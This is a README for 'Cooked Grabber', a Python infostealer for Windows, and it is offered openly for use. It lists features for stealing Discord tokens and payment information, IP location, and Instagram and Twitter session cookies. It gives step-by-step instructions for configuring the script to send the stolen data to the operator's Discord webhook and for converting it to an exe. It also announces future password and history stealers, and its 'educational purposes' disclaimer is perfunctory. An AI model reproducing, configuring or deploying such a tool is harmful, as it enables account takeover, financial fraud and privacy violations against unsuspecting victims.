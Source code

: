 ![Logo](https://imgur.com/lCyX6TX.png)

# Cooked Grabber

Discord , Twitter, Instagram cookies and token grabber

## Features

- Easy to use
- Alls navigators compatibility
- Steal discord token
- Steal discord payment informations
- Steal IP adress and location
- Steal Instagram connection cookies
- Steal Twitter connection cookies
- Can be converted to exe
## Requirements

- Windows OS only
- Python 3.x (unless it exe converted)
- Modules: `$ pip install -r requirements.txt` (unless it exe converted)

## Screenshots

![App Screenshot](https://imgur.com/btX4Sro.png)

![App Screenshot](https://imgur.com/Fax7uTB.png)

## How to use ?

There is 2 ways to run the script.

### 1. First way

You need to add your **webhook(s)** **link(s)** to the script from this line:
```py
main(['YOUR DISCORD WEBHOOK URL]) #line 252
```
*You can run the script normaly.*

### 2. Second way

You can also run the program by giving several arguments (the webhook(s) link(s)):
```console
py CookedGrabber.py YOUR WEBHOOK(s) URL(s)
```

## Coming soon features 
- More optimisations , kill lags
- Saved password stealer
- Bookmarks stealer
- History stealer
- More error bypass
## Disclaimer
- Only for educationnal puposes
- We decline any responsability in case of misuse of this code

## Author

- [@mouadessalim](https://github.com/mouadessalim)
- [@crashixx](https://github.com/crashixx)
